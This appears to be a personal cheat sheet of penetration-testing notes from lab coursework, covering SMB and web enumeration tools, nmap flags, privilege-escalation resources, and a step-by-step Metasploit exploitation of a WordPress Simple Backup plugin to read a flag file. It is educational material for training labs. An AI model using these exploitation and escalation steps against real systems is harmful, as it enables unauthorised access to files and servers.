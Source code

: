 ## SMB shares

To connect to a SMB share over a network as the user Bob
```
smbclient -U bob \\\\10.129.74.37\\users
```
To just look at the users on the network, use this command
```
smbclient -N -L \\\*ip-adress*
```

# Web Enumeration

## Se any hidden files or directories on a webserver that is not intended for public access. 

Tools: 

https://github.com/ffuf/ffuf

https://github.com/OJ/gobuster

## HTTP status codes

https://en.wikipedia.org/wiki/List_of_HTTP_status_codes

## DNS Subdomain Enumeration

Contains many useful lists for fuzzing and exploitation: https://github.com/danielmiessler/SecLists

Take screenshots of target web applications, fingerprint them, and indentify possible default credentials: https://github.com/FortyNorthSecurity/EyeWitness

## Video to help

https://www.youtube.com/watch?v=6Ekm0hXfvME

## First hack with Metasploit

Q: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.
<br>

```
msf6 > search simple backup
```
<br>

```
msf6 > use 0
```
<br>

```
msf6 > options
```
<br>

```
msf6 > set RHOST *ip-adress
```
<br>

```
msf6 > set RPORT *port
```
<br>

*this is because the question is asking us to try and get the content of the /flag.txt
```
msf6 > set FILEPATH /flag.txt
```
<br>

```
msf6 > run
```
<br>


```
cd /home/kali/.msf4/loot
```
<br>

```
ls
```
<br>


```
cat *file that you have displayed with the ls command
```
<br>

And there you have your flag. Your first hack


## Useful nmap commands list

---

Nmap dash list

-sV = Version scan

-sC = Specify Nmap scripts

-p- = Scans all 65,535 TCP ports

-sV --script=banner = Banner grabbing

---
<br>

To learn more about nmap: https://academy.hackthebox.com/module/details/19

---

## Privilege Ecalation

### PrivEsc Checklists

Checklists for Linux and Windows, but contains more info: https://book.hacktricks.xyz/welcome/readme

Also a checklist: https://github.com/swisskyrepo/PayloadsAllTheThings

 ### Enumeration Scripts
 
 Linux enumeration scripts: https://github.com/rebootuser/LinEnum
 
 Linux Privilege Escalation Check Script: https://github.com/sleventyeleven/linuxprivchecker
 
 For windows: https://github.com/GhostPack/Seatbelt
 
 https://github.com/411Hall/JAWS
 
 ### Kernel Exploits
 
 If you find any service running and old operation system, we should start by looking for potential kernel vulnerabilities that may exist. To search up older versions for vulnerabilities we use ```searchsploit```
 
 ### Vulnerable Software
 
 We need to check what runs on the system. In linux we do this with running ```dpkg -l``` and on Windows we look at C:\Program Files to check what software that is installed on the system. Then just look for older versions that are in use, and search for vulnerabilities. 
 
 ### User Privileges
 
 ```sudo -l``` to see what sudo privileges we have.
 
 List of commands on how they can explited through sudo: https://gtfobins.github.io/
 
 Contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user: https://lolbas-project.github.io/#
 
 


